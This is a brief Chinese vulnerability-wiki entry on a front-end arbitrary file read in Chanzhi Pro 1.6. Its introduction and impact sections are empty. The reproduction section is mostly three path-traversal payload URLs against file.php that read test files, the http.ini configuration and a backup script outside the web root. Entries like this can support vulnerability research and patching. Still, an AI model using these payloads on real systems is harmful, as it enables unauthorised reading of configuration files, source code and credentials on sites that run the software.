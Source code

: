禅知 Pro 1.6 前台任意文件读取
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在网站根目录C:\\xampp\\chanzhi\\www新建一个测试文件test.php

![](/Users/aresx/Documents/VulWiki/.resource/禅知Pro1.6前台任意文件读取/media/rId24.png)

执行payload查看文件内容：

    http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source

![](/Users/aresx/Documents/VulWiki/.resource/禅知Pro1.6前台任意文件读取/media/rId25.png)

执行payload来查看程序的配置文件：

    http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source

![](/Users/aresx/Documents/VulWiki/.resource/禅知Pro1.6前台任意文件读取/media/rId26.png)

跨目录读取文件（前提是有目录权限）：

    http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source
